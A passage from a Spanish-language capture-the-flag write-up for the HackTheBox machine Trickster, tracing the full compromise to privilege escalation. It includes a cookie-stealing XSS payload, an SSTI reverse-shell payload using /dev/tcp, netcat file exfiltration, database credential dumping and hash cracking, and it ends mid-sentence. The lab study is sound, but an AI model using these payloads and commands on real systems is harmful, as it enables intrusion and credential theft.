 #XSS 
`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.34 -oG allPorts`
`nmap -p22,80 -sCV 10.10.11.34 -oN targeted`
```python
22/ssh
80/http
```


`gobuster vhost -u http://trickster.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 -r --append-domain`
```js
10.10.11.34     trickster.htb shop.trickster.htb
```

Utiliza un `prestashop` que es como un Wordpress para ecomerce

Encontramos en `robots.txt` el directorio `http://shop.trickster.htb/.git/`

Usaremos la herramienta [[GITHACK]] `https://github.com/lijiejie/GitHack.git`
`python3 githack http://shop.trickster.htb/.git/`

Nos traerá toda la web a nuestra maquina y la podemos ver navegando a sus directorios
Encontramos el siguiente directorio de panel de login de Prestashop `http://shop.trickster.htb/admin634ewutrx1jgitlooaj/index.php`

Encontramos la versión y encontramos que tiene un CVE `CVE-2024-34716`
`https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/`

En el PoC nos explica que podemos crear un falso archivo `.png` en el cual podemos incluir contenido JavaScript que será interpretado, por lo que se acontecería un XXS
Este archivo se puede incluir en la web `http://shop.trickster.htb/contact-us`

Creamos el fichero `test.png` con el contenido `<script src="http://10.10.14.18/malicius.js"></script>`

El servicio web hace la solicitud al recurso que hemos levantado en el server de Python

Podemos probar a listar la cookie de sesión `<script src="http://10.10.14.18/?cookie=" + document.cookie></script>`

Como el HttpOnly esta en True no nos permite obtener la cookie

EN el PoC nos dice que hay que subir un tema malicioso podemos usar el repositorio `https://github.com/aelmokhtar/CVE-2024-34716` que nos lo automatiza

Este script nos automatiza todo el proceso de ejecución devolviéndonos una Reverse Shell directamente

`python3 exploit.py --url "http://shop.trickster.htb" --email test@test.com --local-ip 10.10.14.18 --admin-path admin634ewutrx1jgitlooaj
`
Obtendremos una reverse shell como el usuario
Y hacemos un tratamiento de la TTY para que podamos trabajar mas cómodamente

En nuestro directorio acctual encontramos el directoriuo de `prestashop` buscamos por archivos de configuracion `find . -name \*conf\*` y encontramos la siguiente ruta `app/config`  buscamos por archivos que contengan la plabra password `grep -r -i "password"`y encontramos un archivo llamdo `parameters.php`

Y encontramos el usuario de la base de datos 
```ad-hint 
ps_user::prest@shop_o
```

Nos conectamos a la base de datos con el usuario y password encontrados:
`mysql -ups_user -pprest@shop_o -D prestashop`

Al haber muchas tablas se puede filtrar de la siguiente forma
`select table_name from information_schema.columns where column_name = 'email' and table_schema = database();`

Lo que nos hace es: d3e la base de datos actual de todas las tablas muéstrame todas las columnas que contengan la palabra email

Encontramos que en la tabla de empledos es donde se encuentran todos los datos mas relevantes;
`describe ps_employee;`

Obtenemos los usuarios y las contraseñas:
`select email,passwd from ps_employee;`

```ad-hint
admin@trickster.htb

$2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C

james@trickster.htb

$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm
```

Para esos hashes los cuadramos en un archivo y se los pasamos ha [[HASCAT]] el cual nos dirá diferentes modos que debemos de probar para decodearlo ` hashcat hashes /usr/share/wordlists/rockyou.txt -O `

Nos indica que son bcrypt y tendremos que usar el siguiente parámetro
`hashcat hashes /usr/share/wordlists/rockyou.txt -O -m 3200`

Encontramos la contraseña `alwaysandforever` para el usuario `james`
Y conseguiremos pivotar a este usuario

```ad-hint
james::alwaysandforever
```
## Escalada de privilegios
En la búsqueda de binarios SUID no encontramos nada que podamos escalar `find / -perm -4000 2>/dev/null`

Buscaremos capabilities `getcap -r / 2>/dev/null` y tampoco encontramos ninguna que nos pueda servir

Buscamos los puertos abiertos `ss -nltp` tampoco encontramos nada

Buscamos en los procesos con `ps -faux` tampoco encontramos nada útil

Al hacer `hostname -I` encontramos otra IP diferente, encontrando un docker instalado
Para hacer un reconocimiento de las maquinas docker podemos hacer un código para identificar las IP que hay
```bash
#!/bin/bash

for i in $(seq 1 254); do
        timeout 1 bash -c "ping -c 1 171.17.0.$i" &>/dev/null && echo "[+] Host 172.17.0.$i - ACTIVE" &
done; wait
```

Nos encuentra activo el host `.2`

Vamos a ver que puertos tiene abiertos la maquina creando el siguiente script
```bash
#!/bin/bash

for port in $(seq 1 65535); do
        timeout 1 bash -c "echo '' > /dev/tcp/172.17.0.2/$port" &>/dev/null && echo "[+] Puerto $port - OPEN" &
done; wait
```

Nos encuentra el puerto `5000` abierto
Y haciendo un `curl` vemos que se trata de una pagina web `curl 172.17.0.2:5000`

Para desde nuestro equipo poder ver la maquina te haga port fordwarding con ssh `ssh james@10.10.11.34 -L 5000:172.17.0.2:5000`

Ahora desde buestra maquina accedemos a `http://localhost:5000` y nos muestra como un panel de login corriendo con CHANGEDETECTION.IO v0.45.20

Buscamos esto en internet a ver si encontramos información sobre ello vemos que tiene un un `CVE-2024-32651` el cual permite `SSTI` que permite acabarlo en un `RCE`

Primero deberemos de ganar acceso a la interfaz y vemos que se reutiliza la password de james y estaríamos dentro de la web

Seguiremos el PoC `https://github.com/advisories/GHSA-4r7v-whpg-8rx3` lo primero que tenemos que hacer es crear un falso `index.html` y levantar un servidor con Python

Añadimos la url apuntando al servidor que hemos levantado 
En edit cambiamos el timer a menos tiempo y en la zona de notifications añadimos:
- Notification URL list `get://10.10.11.34:8882`
- Notification body `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i /dev/tcp/<IP_Atacante>/445 0>&1"').read() }}`

En nuestra maquina atacante nos ponemos en escucha `nc -nlvp 445` y realizamos cualquier cambio en el `index.html` para obtener la shell
Hemos obtenido una shell como root dentro del contenedor  con IP `172.17.0.2:5000`  una vez obtenida la shell hacemos un tratamiento de esta

Si navegamos por los directorios encontramos en la raíz un directorio `/datastore`
En el directorio `Backup` encontramos un `.zip` nos lo traemos a nuestra maquina atacante de la siguiente forma:
Maquina atacante -> `nc -nlvp 443 > archivo.zip`
Maquina victima -> `cat < archivo.zip > /dev/tcp/>IP_Atcante>/443`

Descomprimimos el archivo, y vemos que en una carpeta hay un archivo `.br`
```ad-info
La esxtension .br pertenece a un tipo de compresion realizado con brotli
```

Descomprimimos el archivo con `brotli -d archivo.br`
Podemos ver que se nos muestra las credenciales de adam
```ad-hint
adam::adam_admin992
```

Con el este usuario podemos ver que al hacer `sudo -l` tenemos permisos de ejecucion en `/opt/PrusaSlicer/prusaslicer` buscamos en internet diferten tipipos de explotacione